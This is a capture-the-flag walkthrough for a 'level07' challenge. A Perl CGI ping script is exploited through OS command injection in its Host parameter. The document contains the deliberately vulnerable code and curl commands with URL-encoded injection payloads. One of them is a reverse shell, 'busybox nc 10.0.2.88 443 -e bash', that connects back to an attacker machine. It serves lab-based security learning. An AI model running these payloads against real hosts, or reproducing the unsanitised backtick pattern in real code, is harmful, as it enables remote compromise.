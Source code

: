 # username / password
level07 / level07
# goal
* The flag07 user was writing their very first perl program that allowed them to ping hosts to see if they were reachable from the web server.
* To do this level, log in as the level07 account with the password level07. Files for this level can be found in /home/flag07.
```
#!/usr/bin/perl

use CGI qw{param};

print "Content-type: text/html\n\n";

sub ping {
  $host = $_[0];

  print("<html><head><title>Ping results</title></head><body><pre>");

  @output = `ping -c 3 $host 2>&1`;
  foreach $line (@output) { print "$line"; }

  print("</pre></body></html>");
  
}

# check if Host set. if not, display normal page, etc

ping(param("Host"));
```
# concept
* OS command injection
* Perl programming
# method of solve
* according to the source code, the page run the `ping` command on whatever host is provided in the `Host` URL parameter
* there's a file at the following endpoint `/home/flag07/thttpd.conf`, which specifies that the port used by the app is `7007`
* when we check the networking port status on the system, we see that port 7007 is open and listening, but there's no convenient programs on the system like `curl`
* when we scan the system from the outside with `nmap`, we see that port 7007 is open, so we can `curl` from our Attacker machine to access the app:
```
curl http://10.0.2.107:7007/index.cgi
```
* the app is online, but we're missing the `Host` url parameter
```
curl 'http://10.0.2.107:7007/index.cgi?Host=localhost'
```
* this gives us ping output, and the script is using Linux OS commands, which we can test for OS command injection
```
curl 'http://10.0.2.107:7007/index.cgi?Host=%3B%20whoami'
```
Note that we need to URL encode the payload for it to go through
* to get access to the flag07 account, we'll have the app make a reverse shell connection to our attacker machine:
```
curl http://10.0.2.107:7007/index.cgi?Host='%3Bbusybox%20nc%2010.0.2.88%20443%20-e%20bash''
```
Note that this is the URL-encoded version of this payload `;busybox nc 10.0.2.88 443 -e bash`
